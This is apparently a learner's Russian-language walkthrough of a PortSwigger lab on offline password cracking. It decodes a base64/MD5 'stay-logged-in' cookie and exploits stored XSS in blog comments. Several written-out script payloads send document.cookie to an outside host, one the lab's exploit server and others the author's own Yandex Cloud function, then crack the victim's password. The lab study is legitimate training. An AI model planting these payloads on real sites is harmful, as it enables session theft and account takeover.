









ссылка https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking
# # Взлом паролей в автономном режиме

хеш пароля в хеше храниться
известно что есть тут XSS в  комментах (хотя я не учил еще xss) значит можно оставить коммент с xss.
есть мои лог+пароль - Ваши учетные данные:`wiener:peter`
есть логин жертвы: carlos
нужно украсть куки карлоса и с помощью этих куки попасть в его аккаунт!
(значит куки можно как-то использовать?)

-------


На  при входе в свой акк заметил что сразу же в ответ приходит в куки пароль!

еще видно  Set-Cookie: session=Gf52JTBrY00dYtFc6PYhyx62KFqKsH01; Secure; HttpOnly; SameSite=None что парам Set-Cookie защищен , а stay-logged-in не имеет защиты!

расшифрую часть 51dc30ddc473d43a6011e9ebba6ca770 на https://crackstation.net


расшифровал: пароль peter зашифрован в MD5

далее на стр везде используются эти куки в этом же формате:
Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw

wiener:51dc30ddc473d43a6011e9ebba6ca770


wiener: зашифр в base 64
peter в MD5

---------


подменил запрос на карлоса в url и в куки Y2FybG9z = carlos
пробую поменять
блока нет после десятков пробных запросов!
то есть можно пробовать подбирать бутфорсом пароли!
но лаба не дала список паролей, значит не в этом смысл!

по сути... можно:
1) подбирать пароли

но сказано в условиях что тут xss...

значит попробую сам найти xss, хотя я про xss подроно не учил до этих пор.

----



заметил что после оставления коомента под постом, этот коомент созраняется на странице сайта.

--------
```html
<script>alert(111)</script> создал такой просто скрипт! 

```
и после отправки сохранился мой код на сервере сайта
и аллерт сроботал при загрузке страницы!


теперь нужно сделать вредоносный скрипт который будет воровать данные юзера из куки при открытии страницы!

я так понимаю - это хранимый xss, так как хранится на сервере!
еще есть отраженный, где меняем ссылку, и DOM.

----

из : https://hackware.ru/?p=1174 :

Пример постоянных:

- Введённое злоумышленником специально сформированное сообщение в гостевую книгу (комментарий, сообщение форума, профиль) которое сохраняется на сервере, загружается с сервера каждый раз, когда пользователи запрашивают отображение этой страницы.
- Злоумышленник получил доступ к данным сервера, например, через SQL инъекцию, и внедрил в выдаваемые пользователю данные злонамеренный JavaScript код (с ки-логерами или с [BeEF](https://kali.tools/?p=1535)).

Пример непостоянных:

- На сайте присутствует поиск, который вместе с результатами поиска показывает что-то вроде «Вы искали: [строка поиска]», при этом данные не фильтруются должным образом. Поскольку такая страница отображается только для того, у кого есть ссылка на неё, то пока злоумышленник не отправит ссылку другим пользователям сайта, атака не сработает. Вместо отправки ссылки жертве, можно использовать размещение злонамеренного скрипта на нейтральном сайте, который посещает жертва.

--------

можно пробовать украсть stay-logged-in  == так как параметр stay-logged-in не имеет защиты в отличии от Set-Cookie: session=Gf52JTBrY00dYtFc6PYhyx62KFqKsH01; Secure; HttpOnly; SameSite=None;

```html
<script>
fetch('https://exploit-0a7d00110459136884c1cc9801d40089.exploit-server.net/exploit', {
method: 'POST',
mode: 'no-cors',
body: document.cookie
});
</script>
```
выше - работает но только на сервере burp - я сделаю свой сервер!


-------------

теперь на сервер
вот мой сервер 
https://functions.yandexcloud.net/d4eehe74dgv6ukpc1q6t?


```html
<script>
fetch('https://functions.yandexcloud.net/d4eehe74dgv6ukpc1q6t?', {
method: 'POST',
mode: 'no-cors',
body: document.cookie
});
</script>
```
#### **Первый этот скрипт  yandexcloud.net не сработал из-за режима `no-cors`**
Параметр `mode: 'no-cors'` используется для ограниченных запросов, которые:

1. Могут отправляться только на те домены, которые явно разрешают CORS (иначе браузер их заблокирует).
    
2. **Не могут иметь "непростые" заголовки** (как `Content-Type`, который автоматически устанавливается при отправке `body`).
    
3. **Не могут содержать тело запроса (`body`)**, если это не один из разрешённых типов (например, `multipart/form-data`).

-------------
-----------------


сработало, результаты пришли на мой собственный сервер!

но я не вижу в них параметр ==stay-logged-in== который мне нужен!


исправлю скрипт чтобы на мой сервер ушли данные

```html
<script>
// кодирую куки для безопасной передачи в URL
var stolenCookie = encodeURIComponent(document.cookie);
//  гет запрос, куки будут в URL
var img = new Image();
img.src = 'https://functions.yandexcloud.net/d4eehe74dgv6ukpc1q6t?=' + stolenCookie;
</script>
```
1. **Используется `GET`-запрос через ``** (а не `fetch`). Браузер не накладывает на такие запросы строгие ограничения CORS.
    
2. **Данные передаются прямо в URL** как параметр (после `?=`), а не в теле запроса. Это классический и надёжный способ эксфильтрации данных при XSS.

--------


# супер! теперь мой сервер получил данные пароля! и логин 
d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw


!!!

d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw 
это логин и пароль!
теперь когда чел зайдет на сайт этот то его логин и пароль уедет автоматичемки ко мне!

но, камон, как лабу то решить? 

короче, там нужно решать через их систему которая автоматически отправит куки на сервер. но я уже это сделал и получаю куки и без этого на свой сервер!

я взял дынные карлоса и вошел в его аакаунт, затем я на своем сервере увидел его пароль и логин защифрованно, 



расшифровал:      onceuponatime 



и смог войти в аккаунт с этими данными! то есть я успешно угнал данные чела который просто посетил страницу!

-------
но лаба не выполнилась!
не пойму, че еще им нужно!

А, нужно было удалить аккаунт, не дочитал просто!
ну все, выполнено!
не пришлось решение открывать!

вот такое вышло знакомство у меня с XSS!!

# СУТЬ !

(хранимый xss - который ворует данные прямо на мой сервер)

у нас есть мои лог+пар
залогинился и вижу что мой пароль закодированные в куках храниться!
далее (первое знакомство с XSS) -> в комментах что ввод сохраняется (логичнно)
теперь ввел первую уязвимость xss   <script>alert(111)</script>
покзался алерт!

далее у меня уже есть простая функция на сервере - которая тупо логирует все запросы к ней, некий такой перехватчик запросов / логер

тупо добавил к ссылке моей  сами куки 
= stolenCookie = encodeURIComponent(document.cookie)

в коменнте отправил такой коомент с моим xss

когда заходишь теперь на эту страницу то выполняется мой скрипт который ворует куки на мой сервер!

----
